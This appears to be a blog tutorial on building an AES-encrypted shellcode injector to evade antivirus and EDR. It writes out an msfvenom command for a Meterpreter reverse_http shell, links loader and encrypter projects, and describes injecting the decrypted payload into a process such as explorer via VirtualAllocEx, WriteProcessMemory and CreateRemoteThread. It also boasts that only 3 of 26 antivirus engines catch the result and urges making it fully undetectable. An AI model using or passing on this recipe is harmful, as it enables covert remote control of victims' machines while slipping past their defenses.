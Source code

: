 ```yaml
---
layout: post
title: Shell Code Injector with AES Encryption - EDR Bypass 
---
```

![](/images/2022-03-24-AESInj/0.png)

I have been getting a lot of messages from people asking about AV evasion. I won’t give away the source code for a fully undetectable payload, but I thought I’d share a basic implementation of a shell code runner that will take AES encrypted shell code and decrypt it and inject into a process such as explorer!
Before we proceed, the technique used to inject shell code is well known to AVs and you will get flagged, the purpose of this writeup is to show how AES can be implemented, and you can use same/similar techniques to bypass EDR solution with more sophisticated techniques 

## What do you need to follow along?

•	Metasploit 

•	Visual Studio 

•	Windows Machine for testing payload 


The first thing to do is to create a shell code using msfvenom:
```
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=IP LPORT=443 -f csharp
``` 

![](/images/2022-03-24-AESInj/1.png)

Now download the project for encrypting the shellcode with AES encryption:
[Click Here](https://github.com/san3ncrypt3d/AESShellCodeEncrypter/tree/main)

Make sure to change the shellcode to your shellcode here:

![](/images/2022-03-24-AESInj/2.png)

*** Note: if you change the key/IV make sure to update them on the decryption part as well ! ***

Once you compile and run the program, you will get the encrypted shell code:

![](/images/2022-03-24-AESInj/3.png)


Now we will need to create a program that will essentially take this encrypted shell code, and decrypt It and inject into a process’s virtual address space.

Here is the program:  https://github.com/san3ncrypt3d/AESShellCodeInjector 

I will briefly explain what is going on:

•	"buf" is an array with the encrypted shell code

•	"Dshell" uses the AESDecrypt function and stores the decrypted shell code

•	Now we use Win32 Api’s for allocating shell code in memory, copy the shell code and execute it with VirtualAllocEx and WriteProcessMemory and CreateRemoteThread:

![](/images/2022-03-24-AESInj/4.png)

Now you change the “buf” array with the encrypted shell we acquired from previous program and compile the program and run it

Of course, make sure to start a lister on Metasploit:

![](/images/2022-03-24-AESInj/5.png)

At the time of writing this project, the payload is only detected by 3/26 Av engines:

![](/images/2022-03-24-AESInj/6.png)

I am a bit surprised that only 3 AV’s caught it, but you can enhance this project into making it completely undetectable:

![](/images/2022-03-24-AESInj/7.png)


